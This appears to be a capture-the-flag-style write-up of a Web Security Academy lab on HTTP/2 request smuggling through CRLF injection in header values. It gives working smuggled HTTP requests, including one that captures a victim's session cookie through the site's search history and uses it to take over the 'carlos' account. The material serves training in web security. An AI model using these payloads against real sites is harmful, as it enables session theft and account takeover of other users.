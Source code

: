 
The catch here is that HTTP/2 messages are binary rather than text-based, so the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters.

This means that `\r\n` no longer has any value, and can be included inside the value without causing any splitting.

When the request is rewritten as HTTP/1 request, then `\r\n` will be interpreted as a header delimiter.

For example:

```HTTP/2
Foo: bar\nTransfer-Encoding: chunked
```

```HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

## CLFR Exploitation

The goal is to use CLFR vulnerability to gain access to another user's account. The victim accesses the home page every 15 seconds.

First let's capture the root request and send that to repeater. Change the method to `POST` and remove the unnecessary headers.

In order to verify the vulnerability, let's add the `Transfer-Encoding: chunked` but in the same line with another header, so the frontend will not see it.

`Foo: Bar\r\nTransfer-Encoding: chunked`

So the request will be:

```HTTP/2
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

GET /dajlshdalked HTTP/1.1
X-Ignore: x
```

Always make sure that there will not be `\r\n` after the X-Ignore: x, as this will not allow the correct append of the victim's request.

When I send this, and then a normal request, I got a `404` meaning that the vulnerability is present.

Response
```http
HTTP/2 404 Not Found
```

Now, to exploit and gain access to the victim's account. For, this I will target its cookie.

In the main page, there is a search function, and if I search for something, that is stored in the "Recent searches", so I will use this to gain access to the victim's account.

![](../../../../images/Pasted_image_20250116112611.png)

I modify my attack request in a way that the `Content-Length` is much longer than the actual body.

```http
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7a004804d6a19f80d6402b00bd0047.web-security-academy.net
Cookie: session=9QjWxUhrPKWLuxEXqD6HwnMDzlhrRNTj;
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=halilWashere
```

When I send this, a couple of times, as the victim visits the page every 15 seconds, the request of the victim will be appended to my search query. 

And I see that I have extracted the request, and there is also the cookie.
![](../../../../images/Pasted_image_20250116113108.png)

When I put this account's Cookie in Burp, I gain access to the `carlos` account.

![](../../../../images/Pasted_image_20250116113425.png)
